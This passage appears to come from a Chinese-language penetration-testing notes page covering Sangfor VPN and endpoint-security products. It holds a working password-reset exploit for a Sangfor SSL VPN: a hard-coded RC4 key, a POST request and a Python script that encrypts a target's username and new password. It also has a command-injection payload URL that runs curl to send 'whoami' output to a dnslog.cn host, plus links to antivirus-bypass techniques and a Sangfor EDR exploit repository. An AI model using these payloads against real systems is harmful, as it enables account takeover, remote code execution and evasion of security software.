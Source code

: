         M7.6.1key为20100720

        POST /por/changepwd.csp

        sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
        ```
        ```py
        from Crypto.Cipher import ARC4
        from binascii import a2b_hex

        def myRC4(data, key):
            rc41= ARC4.new(key)
            encrypted =rc41.encrypt(data)
            return encrypted. encode('hex')

        def rc4_decrpt_hex(data, key):
            rc41= ARC4. new(key)
            return rc41. decrypt(a2b_hex(data))

        key= '20100720'
        data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
        print myRC4(data, key)
        ```

- **RCE**
    - POC | Payload | exp
        ```
        https://x.com/por/checkurl.csp?url=-h|curl `whoami`.xxxx.dnslog.cn&retry=1&timeout=1
        ```

---

# 终端响应与检测

**相关文章**
- [绕过集中管控类安全软件小技巧](https://www.t00ls.net/articles-58584.html)

## 杀软

**利用杀毒软件删除任意文件**
- 相关文章
    - [Exploiting (Almost) Every Antivirus Software](https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/)
        - [利用杀毒软件删除任意文件](https://idiotc4t.com/defense-evasion/using-antivirus-to-delete-files)

**白名单信任文件**
- 相关文章
    - [通过信任文件绕过火绒](https://mp.weixin.qq.com/s/mw8Sql8VtGfNGQkFxptWnQ)

## EDR

**深信服 EDR**
- **2020.08命令执行**
    - 相关文章
        - [深信服终端检测响应平台 EDR 代码审计](https://www.sqlsec.com/2020/08/edr.html)
    - POC | Payload | exp
        - [A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)
